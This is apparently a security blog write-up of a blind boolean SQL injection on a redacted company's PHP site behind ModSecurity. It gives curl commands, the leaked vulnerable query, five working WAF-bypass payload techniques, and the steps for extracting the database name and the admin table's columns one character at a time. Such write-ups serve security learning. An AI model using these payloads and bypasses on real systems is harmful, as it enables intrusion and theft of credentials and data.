




+++
title = "Evading ModSecurity WAF to Exploit Blind SQLi"
date = 2026-10-25
draft = false
+++

This is how I found a blind boolean-based SQL Injection on a [REDACTED] company's website - with ModSecurity WAF in place.

---

### What is Blind Boolean-based SQL Injection?

"Blind" means exactly what it sounds like - you don't see any database output. 

The page doesn't show you query results. It doesn't show you error messages. It doesn't show you anything from the database at all. 

You're blind.

But here's the thing — even though you can't see the data, the page behaves differently depending on whether your injected SQL evaluates to `true` or `false`.

Maybe you get a full page when the condition is true, and "no results" when it's false. Maybe the page is 20,708 bytes vs 9,999 bytes. That behavioral difference is your signal.

In my case it was OBVIOUS "to say the least 20,708 bytes vs 13 bytes".

That's blind boolean SQLi — you extract the entire database one yes/no question at a time.


`The catch:` it's slow. To extract a single character, you need ~7 HTTP requests (using binary search). A 10-character string = ~70 requests. A full database dump could be tens of thousands of requests. But it works. And you can automate it.

---

### Why this one is Blind and not Classic

When the query returns rows, the page uses the data to fill in page_title, meta_description, meta_keyword — but those go into the HTML `<title>` and `<meta>` tags, not into visible page content. We can’t see the actual values in the response.

But the page still changes size depending on whether the query returns rows — and that’s all I needed.

---

### RECON

Looking at the headers I saw `Server: Apache` and `X-Powered-By: PHP` it's the classic LAMP stack - which means almost certainly MySQL on the backend.

Looking at all the links on the homepage.

```
curl -sk "https://domain.com/" | grep -oE 'href="[^"]*"' | sort -u
```

I found that a bunch of pages use a URL parameter called catlink:

```
https://domain.com/about-us/who-we-are.php?catlink=who-we-are
https://domain.com/about-us/what-we-do.php?catlink=what-we-do
https://domain.com/about-us/board-of-directors.php?catlink=board-of-directors
https://domain.com/about-us/management-team.php?catlink=management-team
... and like 15+ more
```

A parameter that controls which content is shown is basically a `WHERE` clause.

---

### Important: WAF requires browser headers (obviously)


The target's WAF blocks basic user-agents, so you need full browser headers for every request. I used these headers throughout:

```
HEADERS=(
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Referer: https://domain.com/about-us/who-we-are.php"
  -H "Cookie: PHPSESSID=test123"
)
```

---

### A Baseline

Before injecting anything, you need to know what "normal" looks like.

```
# status 200 : 20708 bytes — full page

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{http_code}:%{size_download}' \
  'https://domain.com/about-us/who-we-are.php?catlink=who-we-are'


# status 200 :13 bytes — "No data found"

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{http_code}:%{size_download}' \
  'https://domain.com/about-us/who-we-are.php?catlink=doesnotexist'
```

---

### Finding the Injection

The single quote `'` is the most fundamental SQLi test character because SQL uses single quotes to wrap text values.

```bash
# single quote — breaks the query

# status 500 : 0  bytes — server error

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{http_code}:%{size_download}' 'https://domain.com/about-us/who-we-are.php?catlink=who-we-are%27'
```

Our `'` closes the string early, leaving a stray `'` at the end. Invalid SQL. HTTP 500.

```bash
# comment fix — # comments out the leftover quote

# status 200 : 20708 bytes  — query is fixed

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{http_code}:%{size_download}' 'https://domain.com/about-us/who-we-are.php?catlink=who-we-are%27%20%23'
```

`%27%20%23` = `' #`. 

The `#` is MySQL's comment character — everything after it is ignored.

---

### But the WAF was like — hold up, wait a minute

```
catlink=who-we-are' AND 1=1-- -         - 406
catlink=who-we-are' AND 1=2-- -         - 406
catlink=who-we-are' OR 1=1-- -          - 406
catlink=x' UNION SELECT 1,2,3...#       - 406
catlink=x' oR @@version LIKE '5%'#      - 406
catlink=x' AND SLEEP(5)#                - 406
catlink=x' AND UPDATEXML(1,...)#        - 406
```

Everything I tried got blocked. `406`.

```
All payloads were tested URL-encoded and double-encoded.
```

---

### The Source Code ... Leaked

While exploring the site, I accessed the root-level PHP file directly:

```
curl -sk "${HEADERS[@]}" 'https://domain.com/who-we-are.php'
```

The pages I was testing were under `/about-us/who-we-are.php`, but the same file existed at the root as `/who-we-are.php`.

```php
?>
include('php_config.php');

/* AUTO CATLINK FIX */
if(!isset($_REQUEST['catlink']) || trim($_REQUEST['catlink'])==""){
    $_REQUEST['catlink'] = basename($_SERVER['PHP_SELF'], ".php");
}

/* FETCH DATA */
if(isset($_REQUEST['catlink']) && trim($_REQUEST['catlink'])!=""){
    $qry = mysqli_query($GLOBALS['db_con'],
        "select * from ".ABOUT."
         where is_active='1'
         and link_url='".$_REQUEST['catlink']."'"
    );
                        // ^ THIS IS THE PROBLEM

    if(mysqli_num_rows($qry)>0){
        $rec = mysqli_fetch_assoc($qry);
        $page_title = stripslashes($rec['page_title']);
        $meta_description = stripslashes($rec['meta_description']);
        $meta_keyword = stripslashes($rec['meta_keyword']);
    } else {
        echo "No data found";
        exit;
    }
}
```

**Why is the source visible?** The first line starts with `?>` which *closes* a PHP block. The opening `<?php` tag is missing. No opening tag - PHP treats the whole file as plain text. 

A single missing tag exposed everything.

The vulnerable line:

```
"select * from " . ABOUT . " where is_active='1' and link_url='" . $_REQUEST['catlink'] . "'"
```

Whatever you put in `catlink` gets pasted directly into the SQL string. No prepared statements. No escaping. Nothing.

From the source I also learned: `ABOUT` is a PHP constant for the table name, it uses `$_REQUEST` (accepts GET, POST, cookies), and `php_config.php` almost certainly has database credentials.

---

### Building the Boolean Oracle

A **boolean oracle** is a system that reliably answers true or false to any question you ask. It's the foundation of blind SQLi.

```
# TRUE : x' oR true#

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{size_download}' \
  'https://domain.com/about-us/who-we-are.php?catlink=x%27%20oR%20true%23'

# 20708 bytes (TRUE)

# FALSE : x' oR false#

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{size_download}' \
  'https://domain.com/about-us/who-we-are.php?catlink=x%27%20oR%20false%23'

# 13 bytes (FALSE)
```

The SQL becomes:

```
SELECT * FROM ABOUT WHERE is_active='1' AND link_url='x' oR true#'
```

AND runs before OR in SQL (like multiplication before addition). So: `(FALSE AND FALSE) OR TRUE` = TRUE. Every row matches. Full page.


{.big}

With this I was able to replace `true`/`false` with *any SQL expression* and the response size tells me the answer.

---

### The annoying WAF

The site has **ModSecurity WAF** running OWASP Core Rule Set (CRS). WAF rules are just pattern matching — regex. If you can express the same SQL using strings the WAF doesn't recognize as dangerous, you win.

I found five bypasses. Each exploits a gap between what ModSecurity sees and what MySQL executes.

### Bypass 1: Mixed-case + boolean literal + # comment

```text
Blocked:  x' OR 1=1--
Blocked:  x' OR true--
Bypass:   x' oR true#
```

Three things at once:
1. **`true` instead of `1=1`** — WAF regex looks for comparison operators after `OR`, not bare boolean keywords
2. **`oR` instead of `OR`** — WAF matches case-sensitively here. MySQL keywords are case-insensitive
3. **`#` instead of `--`** — MySQL-specific comment. WAF focused on blocking `--`

### Bypass 2: FROM/**/ (inline comment as whitespace)

```text
Blocked: (SELECT 1 FROM about LIMIT 1)=1      → 406
Bypass:  (SELECT 1 FROM/**/about LIMIT 1)=1   → 200
```

`/**/` is a SQL inline comment. MySQL treats it as whitespace, so `FROM/**/about` = `FROM about`. But ModSecurity's regex `FROM\s+\w+` doesn't match because `/**/` isn't whitespace — it's a comment token.

### Bypass 3: URL-encoded period `.` 

```text
Blocked: FROM/**/information_schema.columns     → 406
Bypass:  FROM/**/information_schema%2Ecolumns   → 200
```

The processing chain:
1. **curl sends:** `information_schema%2Ecolumns`
2. **ModSecurity inspects raw URL** — sees `%2E`, not a literal dot. Regex for `information_schema\.columns` doesn't match
3. **PHP's `$_REQUEST` URL-decodes** — `%2E` becomes `.`. SQL query has `information_schema.columns` — valid SQL

WAF inspects BEFORE PHP decodes. PHP decodes BEFORE putting it in SQL. That gap is the bypass.

Note: `information_schema.tables` with `%2E` still got blocked (dedicated rule). But `.columns` also has `TABLE_NAME` for every column in every table, so I used `GROUP BY table_name` to deduplicate.

### Bypass 4: (SELECT version()) instead of @@version

```text
Blocked:  @@version
Bypass:   (SELECT version())
```

Same result, different syntax. WAF only blocks the `@@` pattern.

### Bypass 5: MySQL conditional comments /*!50000keyword*/

MySQL comments starting with `/*!` followed by a version number are *actually executed* if the server version >= that number. `/*!50000FROM*/` looks like a comment to the WAF, but MySQL 5.7 executes the `FROM` inside.

```text
# 20708 bytes — WAF let it through, MySQL executed it

curl -sk "${HEADERS[@]}" -o /dev/null -w '%{size_download}' \
  'https://domain.com/about-us/who-we-are.php?catlink=x%27%20oR%20(/*!50000SELECT*/%20COUNT(*)%20/*!50000FROM*/%20information_schema.schemata)%3E0%23'
```

Invisible SQL.

---

### EXTRACTING DATA — ONE LETTER AT A TIME

We have a boolean oracle and WAF bypasses. But how do you extract a *string* using only yes/no questions?

**Binary search on each character's ASCII code.**

Every character has a numeric code. `a` = 97, `t` = 116, `z` = 122. MySQL's `SUBSTRING(string, pos, len)` extracts a character, and `ASCII(char)` converts it to its number.

```
ASCII(SUBSTRING((SELECT database()), 1, 1)) > 106
```

Printable ASCII is 32–126 (95 possibilities). Binary search halves the range each time — **7 questions per character** (log2(95) ~ 6.6).

---

### Walkthrough: first character of database()

The answer is `t` (ASCII 116) — pretend I don't know that.



Above 115, not above 116 → exactly **116** → ASCII 116 = `t`.

7 requests. Repeat for every position until `> 31` returns FALSE (end of string).

---

### Database fingerprinting

“version, database name, user — all extracted via the same oracle"


{.big}

---

## THE EXTRACTION SCRIPT

I'm sure it's fine.


{.big}

```
[+] All columns: ['admin_id', 'admin_user', 'admin_name', 'admin_pass', 'admin_email', 'admin_mobile', 'admin_type', 'is_active', 'admin_img']
```

I didn’t bother enumerating all the tables and extracting everything — blind SQLi is slow, and I’d already proven the point.

---

### Conclusion

One missing <?php tag. One unsanitized parameter. That’s all it took.

Use prepared statements.


Thank you for reading.